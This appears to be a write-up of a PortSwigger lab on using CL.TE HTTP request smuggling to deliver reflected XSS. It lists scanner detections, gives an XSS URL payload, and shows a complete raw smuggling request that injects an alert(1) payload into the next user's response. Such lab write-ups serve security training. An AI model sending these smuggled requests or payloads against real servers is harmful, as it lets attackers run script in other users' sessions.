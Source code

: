 # [Lab: Exploiting HTTP request smuggling to deliver reflected XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)

## Lab

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the `User-Agent` header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

## Detected CL.TE

- burpsuite active scan: detected http request smuggling
- burpsuite `HTTP request smuggler` extension: detected CL.TE
- smuggler.py: `[tabprefix1]   : Potential CLTE Issue Found`

## Detected reflected xss

```url
https://id.web-security-academy.net/post/comment/confirmation?postId=%22%3E%3Cimg+src=1+onerror=print()%3E
```

## Solutions

```http
POST / HTTP/1.1^M$
Host: 0a5200e0044d2ffac16c0354000c00a6.web-security-academy.net^M$
Cookie: session=RgD3KWka9NMaoRdT89t8zFQn98bLTSSs^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 96^M$
tRANSFER-ENCODING: chunked^M$
^M$
0^M$
^M$
GET /post/comment/confirmation?postId=%22%3E%3Cimg+src=1+onerror=alert(1)%3E HTTP/1.1^M$
foo: 
```
